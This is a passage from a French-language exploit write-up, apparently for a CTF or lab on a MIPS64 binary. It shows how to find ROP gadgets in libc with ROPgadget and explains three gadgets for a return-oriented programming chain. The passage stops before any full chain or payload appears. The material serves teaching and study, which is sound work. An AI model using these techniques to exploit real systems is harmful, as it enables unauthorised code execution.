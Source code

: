 _delay slot_ : chaque branchement et saut est suivi d'une instruction qui sera exécutée avant le branchement si celui-ci est pris, et qui sera également exécutée si le branchement n'est pas pris.

#### ROP Chain

##### Trouver les gadgets

Afin de trouver les gadgets, on utilise l'outil [ROPGadget](https://github.com/JonathanSalwan/ROPgadget).
Pour disposer d'un nombre conséquent de gadgets, on va rechercher ceux basés sur la libc.

Exemple pour trouver le gadget `jmp_s1`

````shell
└─$ ROPgadget --binary libc.so.6 --depth 5 | grep nop | grep "move \$t9, \$s1" | grep "jalr \$t9"
0x0000000000168844 : addiu $a0, $zero, 1 ; move $t9, $s1 ; sd $ra, 0x58($sp) ; sd $v0, 0x28($sp) ; jalr $t9 ; nop
0x0000000000174d20 : addiu $s4, $zero, 4 ; nop ; lw $a0, 0x1f4($s0) ; move $t9, $s1 ; jalr $t9 ; move $a1, $s7
[...]
0x00000000000bde04 : move $t9, $s1 ; jalr $t9 ; nop
[...]
````


##### Explication simplifiée de la ROP chain

###### Gadgets utilisés

1. **jmp_s1**
   ```asm
   move $t9, $s1
   jalr $t9
   nop
   ```
   Ce gadget copie la valeur de `$s1` dans `$t9` et appelle l'adresse contenue dans `$t9`.


2. **move_t9_s0_ld_a0_0x38**
   ```asm
   move $t9, $s0
   jalr $t9
   ld $a0, 0x38($sp)
   ```
   Ce gadget copie la valeur de `$s0` dans `$t9`, charge une valeur depuis l'adresse `$sp + 0x38` dans `$a0`, appelle l'adresse contenue dans `$t9`


3. **ra_ld_s0_s1_jmp_ra**
   ```asm
   ld $ra, 0x18($sp)
   ld $s1, 8($sp)
   ld $s0, ($sp)
   jr $ra
   daddiu $sp, $sp, 0x20
   ```
   Ce gadget charge des valeurs dans les registres `$ra`, `$s1`, et `$s0` à partir de la pile, puis retourne à l'adresse stockée dans `$ra`.
